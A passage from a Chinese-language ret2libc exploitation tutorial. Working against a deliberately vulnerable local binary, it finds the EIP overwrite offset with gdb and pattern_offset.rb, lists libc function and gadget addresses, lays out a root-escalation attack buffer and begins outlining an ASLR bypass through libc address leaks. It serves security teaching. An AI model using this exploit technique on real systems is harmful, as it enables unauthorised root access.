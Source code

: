 ```
chouchou@ubuntu:~/security/flaws/return2libc$ gdb  ./vuln -q
Reading symbols from ./vuln...(no debugging symbols found)...done.
>>> r  Aa0……i2A(省略部分输入数据)
回车之后，gdb输出如下错误数据：
Program received signal SIGSEGV, Segmentation fault.
0x61413661 in ?? ()
Traceback (most recent call last):
  File "<string>", line 701, in lines
  File "<string>", line 116, in run
gdb.error: No function contains program counter for selected frame.

```

显然，目标程序去执行0x61413661的地址时发生错误，这个地址就是被我们使用攻击buffer覆盖后的EIP地址，现在我们使用pattern_offset.rb查找这个地址在攻击buffer中的位置：

```
chouchou@ubuntu:~/security/flaws/return2libc$ pattern_offset.rb 0x61413661 250
[*] Exact match at offset 19

```

好了，现在我们已经确定了用于覆盖的EIP的数据在攻击buffer中的偏移值为19，下面就开始精心构造攻击buffer了。

### 4.2 构建攻击buffer

从前文的分析知道，要使用execl完成基于ret2libc的root提权攻击，我们需要实现搜集如下数据信息：

1.  printf函数的地址，以及printf函数要使用的字符串’%5$n’的地址；
2.  execl函数的地址，以及该函数使用的’/bin/sh’字符串的地址；
3.  exit函数的地址；
4.  POP/RET 指令块的地址。
    
    Printf 0xb7e63280 Execl 0xb7ecbec0 Exit 0xb7e491e0 ‘%5$n’ 0xbffff2b6 ‘/bin/sh’ 0xbffffa6e POP/RET 0x080484af Addr of NULL 0xbfffefc9+18+4*7=0xbfffeff7
    

获取了这些数据之后，将它们各自安插到图3-1的合适位置即可构造对应的攻击buffer。

```
19字节overflow| 0xb7e63280 | 0x080484af | 0xbffff284 | 
   0xb7ecbec0 | 0xb7e491e0 | 0xbffffeea | 0xbffffeea | 0xbfffeff7

```

0x05 对抗ASLR
===========

* * *

鉴于ASLR机制只是将既然stack，heap以及共享库文件的起始地址进行了随机化，而文件内部各部分数据之间的偏移值却是固定不变的，所以攻击的整体思路如下：

先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数等其他函数的地址，字符串地址类似。

那么怎么才能泄露出Libc库文件的地址呢？考虑到程序本身在内存中的地址并不是随机的，所以只要将返回值设置到程序本身所处的内存段就可以了，当然，**前提是我们必须获取目标系统中的libc.so库文件**。Linux内存随机化分布图如下图所示：

![p11](http://drops.javaweb.org/uploads/images/91d25eb6a3136d7e15e2555cdb3338c71f25d1b3.jpg)
